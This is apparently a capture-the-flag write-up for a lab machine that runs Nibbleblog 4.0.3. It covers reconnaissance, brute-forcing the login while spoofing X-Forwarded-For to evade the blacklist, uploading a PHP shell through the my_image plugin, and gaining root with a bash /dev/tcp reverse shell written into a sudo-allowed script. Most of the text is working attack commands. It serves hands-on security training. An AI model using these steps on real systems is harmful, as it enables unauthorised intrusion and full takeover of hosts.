










$ nmap -sC -sV -p- 10.129.96.84
| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0) |
| 80 | HTTP | Apache httpd 2.4.18 (Ubuntu) — no title / default-looking page |

/ revealed an HTML comment: <!-- /nibbleblog/ directory. Nothing interesting here! -->
/nibbleblog/ is live — Nibbleblog CMS instance titled "Nibbles - Yum yum"/nibbleblog/, category views (uncategorised, music, videos), /nibbleblog/feed.php (200, XML)$ gobuster dir -u http://10.129.96.84/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
Found: /admin/ (301), admin.php (200), /content/ (301), install.php (200), /languages/ (301), LICENSE.txt (200), /plugins/ (301), README (200), sitemap.php (200), /themes/ (301), update.php (200)

$ gobuster vhost -u http://10.129.96.84 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
No vhosts found.
/nibbleblog/admin/ajax/ — exposes categories.php, comments.php, mobile.php, pages.php, posts.php, posts_get_video_info.php, security.bit, settings.php, uploader (copy).php, uploader.phpuploader.php present — potential file upload vectoradmin.php → Nibbleblog admin login form, no obvious hints beyond page structureREADME confirms: Nibbleblog v4.0.3 ("Coffee", released 2014-04-01)content/private/plugins/my_image/image.php
update.php confirms version and reveals internal paths: content/private/config.xml, content/private/comments.xml$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.96.84 http-post-form \
"/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password"

-t 4) returned a false positive in 3s — Nibbleblog's blacklist kicked in after failed attempts, changing the response body so the F= match string was no longer found-t 1, refined F= string) — still a false positive in 6s, confirming the target got blacklisted again almost immediately$ curl -X POST admin.php -H "X-Forwarded-For: 1.2.3.4" -d "username=admin&password=wrongpass"
X-Forwarded-For header tricks Nibbleblog's IP-based blacklist tracking — returned the normal "Incorrect username or password." response instead of a blacklist block$ curl -X POST admin.php -H "X-Forwarded-For: 9.9.9.9" -d "username=admin&password=nibbles"
→ HTTP 302 redirect to admin.php?controller=dashboard&action=view (PHPSESSID set)
X-Forwarded-For header per attempt and checks for HTTP 302 as the success indicator — ran against a targeted wordlist and confirmed the same credentials
Custom X-Forwarded-For rotating brute-forcer

admin.php?controller=dashboard&action=view) — notification log confirmed the spoofed X-Forwarded-For IPs from the brute-forcing attemptsadmin.php?controller=plugins&action=config&plugin=my_image), multipart form upload with filename="shell.php"resize.class.php (image processing failed on non-image content), but the file was saved regardlesscontent/private/plugins/my_image/image.php$ nc -lvnp 1234 $ curl http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php → shell received as nibbler (uid=1001)
python3 -c 'import pty; pty.spawn("/bin/bash")'Ctrl+Z, then on the attacker side: export TERM=xterm and stty raw -echo; fg — stable interactive shell as nibbler
$ sudo -l
→ (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler could create it and have it run as root via sudopersonal.zip — unzipped, revealing personal/stuff/monitor.sh (a legitimate Tecmint system-monitoring script), owned by nibbler with 777 permissions$ printf '#!/bin/bash\nbash -i >&/dev/tcp/10.10.14.54/4444 0>&1\n' > personal/stuff/monitor.sh $ sudo /home/nibbler/personal/stuff/monitor.sh → shell received as root

